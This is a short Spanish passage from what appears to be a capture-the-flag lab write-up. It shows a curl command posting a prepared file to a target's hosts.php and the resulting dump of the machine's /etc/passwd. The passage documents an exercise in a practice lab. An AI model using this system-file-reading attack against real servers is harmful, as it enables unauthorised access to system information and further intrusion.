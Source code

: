 Lo ejecutamos y podemos ser el archivo `/etc/passwd` de la máquina víctima; por lo que podemos visualizar contenido del sistema.

```bash
❯ curl -d @test.txt http://10.10.10.78/hosts.php
                                                                
There are 4294967294 possible hosts for root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin       
sys:x:3:3:sys:/dev:/usr/sbin/nologin             
sync:x:4:65534:sync:/bin:/bin/sync                 
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin     
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin        
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin                  
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin                                                                              
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin                
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin                                                                             
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin                                                                             
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin                                                                    
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin                                                                                 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false                                                                                        
_apt:x:105:65534::/nonexistent:/bin/false                                                                                        
messagebus:x:106:110::/var/run/dbus:/bin/false         
uuidd:x:107:111::/run/uuidd:/bin/false                                                                                           
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false                  
whoopsie:x:109:117::/nonexistent:/bin/false                 
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false 
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false  
saned:x:119:127::/var/lib/saned:/bin/false     
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
cliff:x:1001:1001::/home/cliff:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:123:130:ftp daemon,,,:/srv/ftp:/bin/false
```
